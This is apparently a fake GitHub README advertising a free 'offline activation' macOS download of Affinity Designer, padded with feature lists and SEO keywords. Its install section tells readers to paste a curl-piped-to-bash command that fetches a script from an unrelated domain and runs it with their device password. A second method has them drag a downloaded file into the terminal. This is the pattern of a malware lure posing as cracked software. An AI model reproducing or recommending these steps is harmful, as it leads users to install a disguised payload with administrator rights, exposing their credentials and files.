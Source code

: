 <p align="center">
  <img src="https://cdn.jim-nielsen.com/macos/512/affinity-designer-2020-11-18.png?rf=1024" width="320px" alt="Affinity Designer Logo"/>
</p>

<h1 align="center">
  🚀 Affinity Designer – Download for MacOS
</h1>

<p align="center">
  <a href="https://affinity-designer-for-macos-download.github.io/.github/">
    <img src="https://img.shields.io/badge/%EF%A3%BF%20Download%20for%20MacOS-green?style=for-the-badge&logo=apple&logoColor=white" width="350px" height="45px" alt="Download for macOS"/>
  </a>
</p>

---

## 🖼 Preview

<p align="center">
  <img src="https://affinityspotlight.com/assets/content/mkt/q6s/ggj/affinity-designer-running-on-macos-monterey--article-sm@2x.jpg" width="1360px" alt="Affinity Designer Icon"/>
</p>

<p align="center">
  <img src="https://cdn.serif.com/affinity/img/designer/home/0322/artboards/artboards-designer-041120220926--lg@2x.jpg" alt="Affinity Designer Screenshot"/>
</p>

---

## 💡 About Affinity Designer

**Affinity Designer for Mac** is a high-performance vector and raster design app built natively for macOS. It’s crafted for UI/UX designers, illustrators, and creatives who demand speed, precision, and a flawless user experience. With real-time rendering, native Apple Silicon support, and offline activation, Affinity Designer delivers professional-grade tools without subscriptions or cloud dependency. Designed for flexibility and power, it integrates seamlessly into modern design workflows.

---


## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🖥 System Requirements

- **macOS:** 13 Ventura, 14 Sonoma, 15 Sequoia  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **Memory:** Minimum 4 GB RAM  

---

## 🚀 Key Features

- ✏️ Precision vector and pixel editing in one app  
- 🎨 Advanced typography, artboards, and grid systems  
- 🖼 Real-time effects, non-destructive workflows  
- 🍎 Fully native macOS experience with Metal acceleration  
- 🌙 Dark Mode support  
- ⚡ Optimized for Apple Silicon chips  
- 🧰 Offline activation with no subscriptions or login  

---

## 🧩 Why Choose Affinity Designer?

Affinity Designer is built for professionals who want a powerful, subscription-free design tool. Whether you're creating interfaces, icons, illustrations, or complex vector work, Affinity Designer offers unmatched speed and control. It’s perfect for freelance creatives, design teams, and agencies that need efficiency, reliability, and a one-time license model.

---

## 🎯 What You Unlock

- ✅ Full access to all vector, raster, and export tools  
- 🚀 Real-time performance on Apple Silicon  
- 🔒 Offline activation with no account required  
- 🆓 No subscription, login, or cloud services needed  
- 🔁 Seamless workflow with Affinity Photo & Publisher  

---

## 🔍 SEO Keywords

affinity designer, affinity designer mac, affinity designer free download, affinity designer macOS, affinity designer offline activation, vector editor mac, affinity designer no subscription, affinity ui design tool mac, affinity illustrator alternative, affinity designer apple silicon, affinity designer full version mac, affinity designer dark mode, affinity vector tool mac

---

